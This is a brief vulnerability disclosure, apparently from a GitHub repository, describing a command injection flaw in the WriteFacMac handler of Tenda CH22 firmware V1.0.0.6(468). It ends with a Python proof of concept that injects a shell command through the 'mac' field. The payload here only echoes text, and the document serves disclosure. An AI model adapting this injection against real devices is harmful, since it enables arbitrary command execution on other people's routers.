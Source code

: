 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.
![Vulnerability Function2](20240830161624.png)


## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)```

![Vulnerability Function2](20240830161740.png)
